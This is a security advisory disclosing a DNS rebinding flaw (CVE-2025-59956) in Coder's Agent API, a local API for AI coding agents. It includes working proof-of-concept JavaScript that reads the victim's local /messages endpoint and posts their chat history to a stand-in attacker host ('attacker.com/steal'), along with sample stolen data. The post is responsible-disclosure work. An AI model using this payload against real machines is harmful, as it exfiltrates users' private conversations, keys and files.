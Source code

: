 ```yaml
---
layout: post
title: "Coder's Agent API Exposes User Chat History Via DNS Rebinding Attack"
date: 2025-09-19
categories: [dns-rebinding, security, api, llm]
excerpt: "A DNS rebinding vulnerability in Coder's Agent API allows remote attackers to exfiltrate a user's entire local message history, which may contain sensitive data like secret keys and intellectual property."
---
```


**Author:** Evan Harris  
**Affected Component:** Coder's Agent API  
**CVE**: CVE-2025-59956  
**CVSS 3.1 Score**: 6.5 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N  

# Overview 
Coder's Agent API is an open source HTTP API for Claude Code, Goose, Aider, Gemini, Amp, and Codex. 

MCPSec found a DNS rebinding vulnerability in the Agent API that allows remote attackers to exfiltrate a user's Claude Code message history. 

Coder fixed this issue in release v0.4.0. Agent API users should update to this version, or later. 

# Impact 
Attackers gain full GET access to the /messages endpoint served by the Agent API. 

This allows for the unauthorized exfiltration of sensitive user data, specifically local message history which can include secret keys, file system contents and intellectual property the user is working on locally. 

DNS rebinding can happen within a few seconds once connected to a malicious web server. 

## Proof of Concept 

Take the following assumptions: 
- The victim machine is running the Agent API. 
- The victim navigates to a malicious website. 
- The website executes a DNS rebinding attack to manipulate the victim's web browser to interact with the vulnerable Agent API on the attacker's behalf. 

After the DNS rebinding has been completed, an attacker can consume the locally served /messages endpoint. A victim's entire chat history with the Agent API can be exfiltrated to an attacker's server. 

MCPSec performed a proof of concept attack via the following: 
1. Deploy a DNS rebinding application (e.g. Singularity of Origin). 

2. Construct a payload served by a malicious website to obtain and exfiltrate data.

This JavaScript code, served from the malicious site, fetches the message history and sends it to the attacker.
```javascript
const AgentAPI = () => {
  function attack(headers, cookie, body) {
    fetch('http://localhost:3284/messages', {
      method: 'GET',
      mode: "cors",
    }).then(response => {
      const ATTACKER_SERVER = 'https://attacker.com/steal'
      response.json().then(victimMessageHistory => {
        fetch(ATTACKER_SERVER, {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json',
          },
          body: JSON.stringify(victimMessageHistory)
        }).then(r => {
          console.log("attacker server response", r)
        }).catch(e => {
          console.error('failed to post', e)
        })
      }).catch(e => {
        console.error('failed to parse response ', e)
      })
    }).catch(e => {
      console.error("failed to get messages", e)
    })
  }

  // Invoked to determine whether the rebinded service
  // is the one targeted by this payload. Must return true or false.
  async function isService(headers, cookie, body) {
    let controller = new AbortController();
    let signal = controller.signal;
    return timeout(1000, fetch(`http://localhost:3284/docs`, {
        mode: 'no-cors',
        credentials: 'omit',
        signal
      }), controller)
      .then(response => {
        return true;
      })
      .catch(e => {
        return (false);
      })
  }

  return {
    attack,
    isService
  }
}

Registry["AgentAPI"] = AgentAPI();
````

The /messages endpoint is being served on the victim's local machine, and responds with their chat history when queried. 

3. The attacker must run a data collection server that will receive a POST request. The contents of the POST request should be the response from the victim's Agent API /messages endpoint. 

On the victim machine, the Agent API was prompted to checkout the local file system. This is what was sent to the attacker's data collection server: 

The following is an example of the JSON data stolen from a victim who had asked the agent about their local filesystem.

```json
{
  "$schema": "http://localhost:3284/schemas/MessagesResponseBody.json",
  "messages": [{
    "id": 0,
    "content": "╭───────────────────────────────────────────────────╮ \n│ ✻ Welcome to Claude Code! │ \n│ │ \n│ /help for help, /status for your current setup │ \n│ │ \n│ cwd: /home/evan/Downloads │ \n╰───────────────────────────────────────────────────╯ \n \n ※ Tip: Press Esc twice to edit your previous messages ",
    "role": "agent",
    "time": "2025-07-25T11:20:04.988043205+02:00"
  }, {
    "id": 1,
    "content": "Hello, agent!",
    "role": "user",
    "time": "2025-07-25T13:11:16.699082236+02:00"
  }, {
    "id": 3,
    "content": "tell me about my filessytem",
    "role": "user",
    "time": "2025-07-25T13:14:51.120102556+02:00"
  }, {
    "id": 4,
    "content": "● I'll explore your filesystem to show you what's in your current directory \n and its structure. \n \n● List(.) \n ⎿ Listed 1048 paths (ctrl+r to expand) \n \n● Your Downloads directory contains a wide variety of files: \n \n Documents & PDFs [REDACTED_FOR_MY_OWN_SECURITY] The directory appears to be a typical developer's Downloads folder with a \n mix of tools, documents, and research materials, particularly focused on \n AI/ML security research.",
    "role": "agent",
    "time": "2025-07-25T13:15:10.681040365+02:00"
  }]
}
```
## Recommended Mitigations

### For Users (Immediate)

  - **Update to Agent API version v0.4.0 or later immediately.** This version contains the fix for the vulnerability.

### For Developers (Long-term)

  - **Implement robust Host header validation** for all locally served HTTP APIs to prevent DNS rebinding.
  - **Implement CSRF protection** to prevent other forms of cross-origin attacks.
  - **Add security warnings** in documentation for tools that expose local network services.

This vulnerability was reported to the Coder team through responsible disclosure practices. Coder responded quickly to patch the issue.

## Disclosure Timeline

  - **2025-07-25**: Initial vulnerability report submitted to Coder.
  - **2025-07-25**: Coder acknowledges receipt of report.
  - **2025-07-29**: Coder indicates they were able to reproduce and validate the attack scenario.
  - **2025-08-13**: Vulnerability was patched.
  - **2025-08-21**: Coder decided to award a security bounty for the report.
  - **2025-09-09**: Mutually agreeable advisory publication date agreed upon.
  - **2025-09-19**: Security advisory released.

## Conclusion

The DNS rebinding vulnerability in Coder's Agent API demonstrates a critical security challenge for the growing ecosystem of local AI-powered developer tools. While these tools offer powerful capabilities, they must be built with a security-first mindset to protect against web-based threats.

Shout out to the Coder team for their prompt and professional response in patching this vulnerability. All users of the Agent API should update to the latest version to ensure they are protected.

## References

  - [Patched Release (v0.4.0)](https://github.com/coder/agentapi/releases/tag/v0.4.0){:target="\_blank"}
  - [CVE-2025-59956 Details](https://nvd.nist.gov/vuln/detail/CVE-2025-59956){:target="_blank"}
